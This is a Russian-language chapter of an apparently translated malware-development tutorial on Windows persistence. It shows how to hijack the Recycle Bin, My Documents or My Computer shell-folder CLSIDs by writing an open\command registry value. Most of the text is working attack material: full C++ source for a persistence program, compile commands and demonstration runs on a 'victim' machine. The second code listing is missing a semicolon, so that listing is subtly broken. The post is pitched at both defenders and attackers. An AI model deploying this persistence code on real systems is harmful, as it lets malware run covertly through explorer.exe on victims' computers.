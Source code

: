 \newpage
\subsection{87. разработка вредоносного ПО: закрепление (persistence) - часть 21. Корзина, Мои документы – обработчик расширения COM. Простой пример на C++.}

﷽

![pers](./images/85/2023-01-20_00-28.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через модификацию обработчика расширения COM для Корзины.     

### список CLSID

Некоторые специальные папки в операционной системе идентифицируются уникальными строками:      

- `{20d04fe0-3aea-1069-a2d8-08002b30309d}` - Мой компьютер     
- `{450d8fba-ad25-11d0-98a8-0800361b1103}` - Мои документы     
- `{208d2c60-3aea-1069-a2d7-08002b30309d}` - Сетевое окружение     
- `{1f4de370-d627-11d1-ba4f-00a0c91eedba}` - Сетевые компьютеры     
- `{2227a280-3aea-1069-a2de-08002b30309d}` - Принтеры и факсы      
- `{645ff040-5081-101b-9f08-00aa002f954e}` - Корзина       

Добавление подраздела `open\command` к CLSID и добавление нового действия для ключа `shell` приведет к выполнению значения, хранящегося в `\command`.      

### практический пример

Рассмотрим практический пример. Прежде всего, как обычно, создаем "вредоносное" приложение. Для простоты, как обычно, это приложение `meow-meow` messagebox (`hack.cpp`):  

```cpp
/*
hack.cpp
вредоносное приложение для закрепления в Windows
aвтор: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем скрипт закрепления (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\\shell";

  // evil app
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как можно видеть, логика проста.    

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, проверяем реестр:      

```powershell
reg query \
"HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" \
/s
```

![pers](./images/85/2023-01-19_23-39.png){width="80%"}    

Затем компилируем наше "вредоносное" ПО на машине атакующего (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/85/2023-01-19_23-16.png){width="80%"}    

И для проверки корректности пробуем запустить `hack.exe` на машине жертвы (`Windows 10 x64` в моем случае):    

```powershell
.\hack.exe
```

![pers](./images/85/2023-01-19_23-49.png){width="80%"}    

Как можно видеть, наше "вредоносное" ПО работает идеально.    

На следующем шаге просто компилируем скрипт закрепления на машине атакующего:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/85/2023-01-19_23-35.png){width="80%"}    

Наконец, запускаем этот скрипт закрепления на машине жертвы и снова проверяем реестр:     

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" /s
```

![pers](./images/85/2023-01-20_00-19.png){width="80%"}    

Как можно видеть, добавлен подраздел и значение ключа установлено.    

Затем пробуем открыть Корзину:    

![pers](./images/85/2023-01-20_00-25.png){width="80%"}    

![pers](./images/85/2023-01-20_00-25_1.png){width="80%"}    

Если открыть `ProcessExplorer` и посмотреть свойства `hack.exe`:     

![pers](./images/85/2023-01-20_06-59.png){width="80%"}    

Можно заметить, что родительским процессом является `explorer.exe (1680)`.     

Идеально! =^..^=    

### а что насчет других CLSID из списка?    

Я внес небольшое изменение в скрипт закрепления:      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{450d8fba-ad25-11d0-98a8-0800361b1103}\\shell"

  // evil app
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\
      // {450d8fba-ad25-11d0-98a8-0800361b1103}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, 
      // (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}

```

Компилируем и запускаем на машине жертвы:      

```powershell
.\pers.exe
reg query \
"HKLM\SOFTWARE\Classes\CLSID\
{450d8fba-ad25-11d0-98a8-0800361b1103}\shell" /s
```

![pers](./images/85/2023-01-20_07-09.png){width="80%"}    

Но... Не работает у меня в Windows 10, так как используется это дурацкое меню "Пуск", и я не могу найти папку `Мои документы` на рабочем столе.    

Я также попробовал этот трюк с другим CLSID на машине `Windows 7 x86`. Он сработал для папки `Мой компьютер`.     

![pers](./images/85/2023-01-20_07-22.png){width="80%"}    

![pers](./images/85/2023-01-20_07-35.png){width="80%"}    

Я не знаю, использует ли этот трюк какая-либо APT-группа или семейство вредоносного ПО.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-01-20-malware-pers-21)     
